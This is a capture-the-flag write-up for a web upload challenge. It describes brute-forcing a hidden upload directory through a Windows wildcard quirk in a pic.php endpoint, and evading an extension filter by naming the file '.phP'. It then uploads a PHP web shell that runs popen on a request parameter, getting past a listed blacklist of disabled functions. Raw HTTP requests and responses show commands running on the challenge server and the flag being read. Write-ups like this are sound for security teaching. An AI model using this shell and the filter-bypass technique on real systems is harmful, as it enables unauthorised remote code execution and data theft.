 # Upload Challenge
Here is what we got when click in challenge URL
```
<head>
 <title>Where Path~?</title>
</head>
	<form action="upload.php" method="post" enctype="multipart/form-data">  
        <input type="file" name="file" value="up"/>  
        <input type="submit" value="upload" name="submit" />  
    </form>  
	<!--pic.php?filename=default.jpg-->
```

# Walk around
First I will view the source code to check if there's something strange. Here's what I got:
```
<head>
 <title>Where Path~?</title>
</head>
	<form action="upload.php" method="post" enctype="multipart/form-data">  
        <input type="file" name="file" value="up"/>  
        <input type="submit" value="upload" name="submit" />  
    </form>  
	<!--pic.php?filename=default.jpg-->
```

There's a path, `width=497</br>height=477` => what I got when access path

I immediately think about put a shell by upload the file and I notice that host is `Windows` which have a bug
You can read more in here [Bug-Bug](http://www.madchat.fr/coding/php/secu/onsec.whitepaper-02.eng.pdf)

On windows, if we pass `<` it will be replaced by `*` which means it will match of any symbol.
We don't know where the uploaded file is stored, we can use this to find out that directory to access our shell.
First I will upload a picture, get name of it, use `Burpsuite to` find the path

```
GET /pic.php?filename=../8%3C/1523584203.png HTTP/1.1
Host: 47.90.97.18:9999
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/7.0
X-Powered-By: PHP/5.6.35
Date: Sat, 14 Apr 2018 12:07:47 GMT
Connection: close
Content-Length: 26

width=2560</br>height=1440

```

If it return `width=...</br>height=...`, that means I'm right, continue one by one and I got the final path is
`87194F13726AF7CEE27BA2CFE97B60DF`

I upload the `php` file, it will block but you can bypass it by `phP`.
First `phP` file contents: `<?php phpinfo(); ?>`
There's a blacklist

```
assert,passthru,exec,system,chroot,scandir,chgrp,chown,shell_exec,proc_open,proc_get_status,ini_alter,ini_alter,ini_restore,dl,pfsockopen,openlog,syslog,readlink,symlink,popepassthru,stream_socket_server,fsocket,fsockopen
```

But we can you this payload for our `phP` file:

```
<?php
$handle = popen($_GET['a'], 'r'); 
echo $handle;
$read = fread($handle, 2096);
echo $read;
?>
```

then 
```
GET /87194F13726AF7CEE27BA2CFE97B60DF/1523704103.phP?a=type%20..\flag.php HTTP/1.1
Host: 47.90.97.18:9999
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/7.0
X-Powered-By: PHP/5.6.35
Date: Sat, 14 Apr 2018 12:05:11 GMT
Connection: close
Content-Length: 84

Resource id #2<?php
echo "flag is here";
//HITB{e5f476c1e4c6dc66278db95f0b5a228a}
?>
```